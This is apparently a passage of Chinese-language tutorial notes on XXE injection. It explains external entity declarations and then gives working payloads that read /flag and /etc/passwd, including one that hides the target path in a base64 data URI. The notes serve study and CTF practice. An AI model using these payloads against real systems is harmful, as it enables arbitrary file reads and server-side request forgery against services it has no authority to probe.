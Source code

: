 外部实体声明:

```xml
<!-- 语法 -->
<!ENTITY entity-name SYSTEM "URI/URL">
```

```xml
  <!-- 不要求后缀一定是dtd，只要符合dtd文件格式即可 -->
  <!ENTITY name SYSTEM "http://baidu.com/test.dtd">
  <!-- 这里就将"http://baidu.com/test.dtd"定义为了外部实体"name",后面通过&name就能够访问到从"http://baidu.com/test.dtd"处读取到的内容 -->
```

<br>

***

<br>

# 2漏洞和利用

从前面**外部实体声明**那里可以看出, 这里是从外部URL加载`DTD`文件, 那么应该也可以从其他位置加载数据,例如**`file://`**,那么就可以实现任意文件读取或者`SSRF`等

## 读取文件:

这里是读取根目录下的flag文件

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[                                                 
<!ENTITY xxe SYSTEM "file:///flag">
]>

<user><username>&xxe;</username><password>asdf</password></user>
```

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
  ]>
  
  <foo>&xxe;</foo>
```

- **base64编码:**

```xml-dtd
<!DOCTYPE test [
    <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> 
    %init;
    ]>
<foo/>
```
